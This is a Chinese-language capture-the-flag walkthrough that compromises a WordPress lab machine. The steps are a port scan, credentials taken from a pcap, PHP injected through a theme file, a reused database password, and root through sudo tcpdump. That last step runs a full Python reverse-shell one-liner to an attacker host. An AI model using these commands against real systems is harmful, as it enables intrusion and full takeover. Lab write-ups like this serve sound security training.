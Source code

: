 ## port scan

```shell
# Nmap 7.94SVN scan initiated Wed Jan 22 03:31:12 2025 as: nmap -sT -sVC -O -p22,80 -oN nmap_result/detils 192.168.56.142
Nmap scan report for 192.168.56.142 (192.168.56.142)
Host is up (0.00067s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:ac:73:4c:17:ec:6a:82:79:87:5a:f9:22:d4:12:cb (RSA)
|   256 9c:d5:f3:2c:e2:d0:06:cc:8c:15:5a:5a:81:5b:03:3d (ECDSA)
|_  256 ab:67:56:69:27:ea:3e:3b:33:73:32:f8:ff:2e:1f:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 4.9.8
|_http-title: Example site &#8211; Just another WordPress site
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:CC:54:C9 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## web

WordPress 4.9.8

目录扫描到：http://192.168.56.142/ipdata/

wireshark分析，拿到凭据

![image-20250122173328324](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250122173328324.png)

`webdeveloper:Te5eQg&4sBS!Yr$)wf%(DcAd`

登录后台

然后我尝试修改主题进行反弹shell，但是

```
Unable to communicate back with site to check for fatal errors, so the PHP change was reverted. You will need to upload your PHP file change by some other means, such as by using SFTP.
```

然后我就修改插件插入php代码

http://192.168.56.142/wp-content/plugins/akismet/akismet.php

看完wp发现，只需要修改为另一个主题就可以成功插入php代码

http://192.168.56.142//wp-content/themes/twentysixteen/404.php

## 提权

```shell
webdeveloper@webdeveloper:/tmp$ ss -lntp
ss -lntp
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*       
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*       
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:*       
LISTEN   0         128                    [::]:22                  [::]:*       
LISTEN   0         128                       *:80                     *:*
```

存在mysql服务

查看`wp-config.php`，找到账号密码

```
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'webdeveloper');

/** MySQL database password */
define('DB_PASSWORD', 'MasterOfTheUniverse');
```

`webdeveloper:MasterOfTheUniverse`

登录ssh

**sudo tcpdump 提权**

```shell
webdeveloper@webdeveloper:~$ sudo -l
[sudo] password for webdeveloper: 
Matching Defaults entries for webdeveloper on webdeveloper:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump
```

```shell
webdeveloper@webdeveloper:~$ cat 1.sh 
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.138",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
webdeveloper@webdeveloper:~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /home/webdeveloper/1.sh -Z root
```

```shell
root@webdeveloper:/root# cat flag.txt 
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290
```

